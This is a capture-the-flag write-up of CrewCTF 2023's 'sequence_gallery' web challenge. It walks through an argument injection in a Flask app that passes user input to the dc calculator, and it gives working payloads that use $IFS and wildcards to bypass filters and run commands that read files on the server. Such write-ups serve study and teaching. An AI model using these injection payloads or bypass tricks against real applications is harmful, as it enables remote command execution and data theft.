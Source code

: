 # sequence_gallery

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Conclusion](#conclusion)

## Overview

- 101 solves / 100 points
- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

- Do you like sequences?

Author : Satoooon

[http://sequence-gallery.chal.crewc.tf:8080/](http://sequence-gallery.chal.crewc.tf:8080/)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230710142650.png)

## Enumeration

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708134050.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708145108.png)

**In here, we can click the "View" button to see the output of each functions:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708145125.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/CrewCTF-2023/Web/sequence_gallery/sequence_gallery.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|14:51:57(HKT)]
└> unzip sequence_gallery.zip 
Archive:  sequence_gallery.zip
   creating: dist/
   creating: dist/src/
  inflating: dist/src/factorial.dc   
  inflating: dist/src/fibonacchi.dc  
  inflating: dist/src/flag.txt       
  inflating: dist/src/main.py        
  inflating: dist/src/power.dc       
   creating: dist/src/templates/
  inflating: dist/src/templates/index.html  
```

**In `dist/src/main.py`, we can see the web application logic:**
```python
import os
import sqlite3
import subprocess

from flask import Flask, request, render_template

app = Flask(__name__)

@app.get('/')
def index():
	sequence = request.args.get('sequence', None)
	if sequence is None:
		return render_template('index.html')

	script_file = os.path.basename(sequence + '.dc')
	if ' ' in script_file or 'flag' in script_file:
		return ':('

	proc = subprocess.run(
		['dc', script_file], 
		capture_output=True,
		text=True,
		timeout=1,
	)
	output = proc.stdout

	return render_template('index.html', output=output)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=8080)
```

In route `/`, when the `sequence` GET parameter is given, it'll strip out all rest of the path and ONLY extract the filename. Then, it'll append `.dc` to the filename. For example, parameter value `power` will become `power.dc`.

Moreover, if the `sequence` GET parameter's value contains ` ` or `flag`, it'll return `:(`.

After that, it'll use `subprocess.run()` method to execute a Linux command called `dc`, and with the `sequence` GET parameter's value as the ***argument***. Notice that the `Shell` argument is not provided, which means **we can't inject OS command**. (Or is it :D)

Finally, use `render_template()` to render the `output` of the `dc` command. (`render_template()` is not vulnerable to Server-Side Template Injection (SSTI))

## Exploitation

Now, in `subprocess.run()` method it doesn't have `Shell=True`, however it doesn't mean it's not vulnerable.

Our `sequence` GET parameter's value is being parsed as an argument in the `dc` command, thus it's ***vulnerable argument injection***:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150122.png)

Nice! We can now confirm it's vulnerable to argument injection.

Hmm... I wonder what's `dc` in Linux...

**Let's install and view it's `man` page:**
```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:45(HKT)]
└> sudo apt install dc
[...]
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:01:47(HKT)]
└> man dc
[...]
DESCRIPTION
       dc  is  a  reverse-polish  desk calculator which supports unlimited precision arithmetic.  It
       also allows you to define and call macros.  Normally dc reads from the standard input; if any
       command arguments are given to it, they are filenames, and dc reads and executes the contents
       of the files before reading from standard input.  All normal output is  to  standard  output;
       all error output is to standard error.

       A  reverse-polish  calculator  stores numbers on a stack.  Entering a number pushes it on the
       stack.  Arithmetic operations pop arguments off the stack and push the results.

       To enter a number in dc, type the digits (using upper case letters A through  F  as  "digits"
       when working with input bases greater than ten), with an optional decimal point.  Exponential
       notation is not supported.  To enter a negative number, begin the number with  ``_''.   ``-''
       cannot  be  used  for this, as it is a binary operator for subtraction instead.  To enter two
       numbers in succession, separate them with spaces or newlines.  These have no meaning as  com‐
       mands.
[...]
```

With that said, it's basically a *calculator*.

**However, when I was reading the `man` page, I found this:**
```shell
[...]
Miscellaneous
       !      Will run the rest of the line as a system command.  Note that parsing of the  !<,  !=,
              and  !>  commands take precedence, so if you want to run a command starting with <, =,
              or > you will need to add a space after the !.
[...]
```

Wow! So we can execute OS command? Cool!

**Let's try the following payload:**
```shell
-e !id
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150507.png)

Uhh... I forgot the ` ` filter.

**In order to bypass the ` ` filter, we can try to replace ` ` with anything else:**
```shell
-e"!id
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150638.png)

We bypassed the filter! However, the `id` command still didn't execute...

**This is because our `id` command hasn't pressed the Enter key, or the new line character `\n` (`%0a` in URL encoding):**
```
-e"!id%0a
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708150815.png)

Nice! We can now execute arbitrary OS commands! 

**Let's get the flag!**
```
-e"!cat flag.txt%0A
```

Uh... Wait, the filters!

This time, since the ` ` is executed on the system, we need to find other bypasses.

Based on my experience, some Bash jail CTF challenges have banned ` ` the character.

In Bash, **we can use the `$IFS` special shell variable**. The `$IFS` (Internal Field Separator) is used by the shell to determine how to do word splitting, the default value for `$IFS` consists of whitespace characters.

Next, we need to bypass the `flag` filter.

To do so, we can use the `*` wildcard character, which will then read all the files in the current working directory.

**Hence, the final payload will be:**
```shell
-e"!cat$IFS*.txt%0A
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/CrewCTF-2023/images/Pasted%20image%2020230708151601.png)

- **Flag: `crew{10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx}`**

```shell
┌[siunam♥Mercury]-(~/ctf/CrewCTF-2023/Web/sequence_gallery)-[2023.07.08|15:18:28(HKT)]
└> dc         
10 63 67 68 101 107 105 76 85 111 68[dan10!=m]smlmx
DoULikeDC?
```

- Real flag (?) : `crew{DoULikeDC?}`

## Conclusion

What we've learned:

1. Remote Code Execution Via Argument Injection With `dc` Command
